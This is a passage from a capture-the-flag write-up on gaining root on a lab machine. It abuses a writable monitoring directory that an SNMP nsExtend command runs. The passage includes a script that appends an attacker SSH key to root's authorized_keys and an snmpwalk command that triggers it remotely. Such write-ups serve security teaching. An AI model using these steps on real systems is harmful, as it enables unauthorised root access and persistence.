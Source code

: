 Inspecting this file, noticed that's actually a directory but we don't have read access on (just write and execute according to above output). Searching for other files that makes reference to this folder, ran a recusive `grep` in the file system, where I have found a file previously found in `snmpwalk` enum..

```bash
[michelle@pit local]$ grep -r "/usr/local/monitoring/"  / 2>/dev/null
/usr/bin/monitor:for script in /usr/local/monitoring/check*sh
[michelle@pit local]$ cat /usr/bin/monitor 
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
[michelle@pit local]$
```

As we can see, this script runs any file with `check*.sh` in the directory `/usr/local/monitoring`, allowing us to run any arbitrary code from the process that starts `/usr/bin/monitor`.

To better understanding on how I could leverage the permission found, decided to review the recon output and found a mention to the file `monitor`, referenced as **nxExtendedCommands** from SNMP scan.

```bash
$ grep -r "/usr/bin/monitor" .
./scans/snmpwalk_nsExtendObjects.txt:NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
./scans/snmp_full.txt:iso.3.6.1.4.1.8072.1.3.2.2.1.2.10.109.111.110.105.116.111.114.105.110.103 = STRING: "/usr/bin/monitor"
```

According to this guide [SNMP RCE - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-snmp/snmp-rce#getting-the-shell-from-net-snmp-extend), if any binary is configured as nsExtendedCommand (or you're able to add any in these settings), you can trigger its execution using `snmpwalk`.

Based on the gathered information, we probably have a way to gain `root`access, where the following steps were executed:

- Created a `checkXXXX.sh` file, which adds a public key inside ssh's `authorized_keys` in the profile that runs the process and copied it to `/usr/bin/monitor`.

```bash
#!/bin/bash
echo "ssh-rsa <base64PubKey> root@kali" >> ~/.ssh/authorized_keys
```

- From the attacker machine, triggered the nsExtendedObject action

```bash
# Trigger Extended objects
snmpwalk -v 1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

- Right after that, connected using the corresponding private key via SSH as user `root`, where I was able to get the final flag
